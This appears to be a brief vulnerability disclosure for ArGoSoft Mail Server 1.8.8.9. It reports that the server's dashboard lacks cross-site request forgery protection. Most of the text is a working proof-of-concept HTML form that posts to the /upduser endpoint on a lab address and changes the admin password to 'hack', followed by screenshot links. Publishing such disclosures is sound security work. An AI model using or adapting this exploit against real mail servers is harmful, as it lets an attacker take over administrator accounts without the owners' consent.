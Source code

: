 # CSRF on ArGoSoft Mail Server 1.8.8.9

_____________________________________________

## About ArGo Soft Mail Server

Website: https://www.argosoft.com/rootpages/MailServer/Default
______________________________________________

## CSRF on ArGo Soft Mail Server 1.8.8.9

The ArGo Soft Mail Server dashboard does not have protection against attacks of the type Cross Site Request Forgery (CSRF), making it possible to use the exploit below to change the admin password:

'''
<!DOCTYPE html>
<html>
<body>
	<form method="POST" action="http://192.168.56.105:80/upduser">
		<input type="text" name="realname" value="admin">
		<input type="text" name="password" value="hack">
		<input type="text" name="confirmpassword" value="hack">
		<input type="text" name="forwardaddress" value="">
		<input type="text" name="keepcopies" value="N">
		<input type="text" name="returnaddress" value="">
		<input type="text" name="fingerinfo" value="">
		<input type="text" name="respondersubject" value="">
		<input type="text" name="responderdata" value="">
		<input type="submit" value="Send">
	</form>
</body>

'''

![a1](http://sejalivre.org/poc3/argo1.png)

![a2](http://sejalivre.org/poc3/argo2.png)
_______________________________________________
